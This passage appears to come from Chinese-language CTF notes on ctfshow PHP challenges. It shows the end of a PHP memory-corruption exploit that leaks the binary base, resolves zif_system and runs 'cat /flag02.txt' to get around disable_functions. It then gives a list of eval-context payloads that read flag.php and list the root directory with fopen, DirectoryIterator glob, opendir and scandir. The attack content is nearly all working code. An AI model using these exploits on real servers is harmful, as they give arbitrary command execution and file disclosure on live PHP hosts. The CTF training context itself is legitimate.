 ```php
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag02.txt");ob_end_flush();
?>
```

##### 绕过disable_function

**适用于eval类命令执行**

```
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}

$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}

$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);var_dump($line);}


$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->getFilename()." ");} 
$a=opendir('/');while(($file = readdir($a)) !=false){echo $file." ";}    
c=var_dump(scandir('/'));
$a=opendir('/');while(($file=readdir($a)) != false) {echo $file."";}
```
